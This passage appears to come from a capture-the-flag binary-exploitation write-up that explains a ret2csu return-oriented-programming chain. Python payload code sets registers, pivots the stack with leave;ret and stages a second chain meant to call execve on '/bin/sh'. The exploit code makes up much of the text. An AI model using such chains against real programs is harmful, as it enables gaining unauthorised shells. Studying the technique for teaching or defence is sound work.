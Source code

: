 So first, we are using the  __pops__ gadget starting at 0x4011b2 at the end of the __libc_csu_init() function. This will allow us to control the gadgets poped, then we can use the gadget on the same functions. It is important to control RDX. Since we can pop r14 we can move it to RDX, but then as highlighted, we need to pass a call to a pointer on _[r15+rbx+8]_ since we want to just continue, we can use the _fini_ function also highlighted that has a _ptr_ on the address **0x403048** to this function, that basically "does nothing" as it can be observed, we should take care of the _RSP+8_ instruction setting a dummy value.

Considering the above we can write the follwoing _ROP chain_

```python
#storing the string /bin/sh
buf = b"/bin/sh\0"
#ret2csu
buf += p64(pops)
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(1) #r12 -> RDI
buf += p64(elf.got.read) #r13 = > rsi
buf += p64(0x3b) #r14 => RDX
buf += p64(fini_ptr) #r15

buf += p64(ret2csu_gdg) #
buf += p64(0xcafebabe) # dummy add rsp + 0x8
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(0) #r12
buf += p64(0) #r13 
buf += p64(0) #r14 
buf += p64(0) #r15
buf += p64(elf.sym.read) #syscall write()
buf += p64(poprbp)
buf += p64(rw_section+0x100) #second ROP chain
buf += p64(leaveret) #pivot
```
Since this _ROP chain_ will be used when the RAX register is set to 1, we must use the _write()_ syscall. The above will first set the value of RDX to 0x3b with the _pop r14_ instruction, using the _ret2csu_ technique, and then using the rest of the gadgets, we setup RDI to 1 using R12, and RSI is set to _GOT_ address of read() this actually was not important, but it will also provide a leak, that we will not use it :D

At the end, you can observe there's also a _pop rbp_ gadget that sets rbp to the address of the payload + 0x100. Here's where the next chain will be stored. Using then a _leave ret_ gadget, we can pivot to that place to continue execution.

Next, We will repeat the above to store the second _ROP chain_ that will contain the syscall to _execve()_ , since _vuln()_ was called again, we overflow to cal read this time to an offset 0x100 of our first chain, and we call vuln again for a 3rd call.

```python
payload = b"A"*0x48
#calling read() to write the 2nd ROP chain on the.bss section
payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(rw_section+0x100)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)
payload += p64(elf.sym.vuln)
```
